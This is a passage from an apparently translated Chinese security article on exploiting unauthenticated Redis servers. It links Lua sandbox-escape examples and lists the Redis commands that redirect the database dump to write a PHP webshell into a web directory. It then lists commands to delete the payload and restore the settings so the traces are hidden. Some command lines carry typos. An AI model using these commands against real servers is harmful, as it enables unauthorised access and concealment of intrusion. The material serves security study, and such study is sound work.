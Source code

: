 ```
0.17082803611217
0.74990198051087
0.09637165539729
0.87046522734243
0.57730350670279
[...]

```

0x0b 远程命令执行
-----------

* * *

为了在开放的Redis服务器上进行命令执行，有以下三种情况： 首先能够修改底层的字节码,能够进行虚拟机的逃逸。(Lua的一个例子https://gist.github.com/corsix/6575486)；或者是绕过全局保护并且试图访问一些有趣的函数。

绕过全局保护是很轻松的(stackoverflow上有一个例子 http://stackoverflow.com/questions/19997647/script-attempted-to-create-global-variable)。然而这么有趣的模块并不能加载,顺便提一下，在这里还有很多有趣的东西(http://lua-users.org/wiki/SandBoxes)。

第三种情况相对来说比较容易实现，将一个半控制的文件导出到硬盘中，在web的根目录中，通过备份得到一个webshell或者覆盖一个shell脚本。唯一的区别是文件名和payload，导出的方法都是一样的，但是应该注意的是保存日志文件的位置在启动之后是不能修改的。事实上，这个数据库中的内容会隔一段时间备份到硬盘的，以便于数据恢复，何时备份取决于配置文件或者BGSAVE命令

以下是常用的几条命令: -修改备份文件的位置

```
CONFIG SET dir /var/www/uploads
CONGIG SET dbfilename sh.php

```

-把payload插入数据库

```
SET payload “could be php or shell or whatever”

```

-把数据导出到硬盘

```
BGSAVE

```

-清除痕迹

```
DEL payload
CONFIG SET dir /var/redis
CONGIG SET dbfilename dump.rdb

```

然而，这里存在一个致命的问题，Redis对dump出来的数据设置的是”0600”权限，因此Apache不能读取。（作者是这么写的,元芳你怎么看？）

0x0C 关于如何发觉公网上的Redis未授权访问
-------------------------
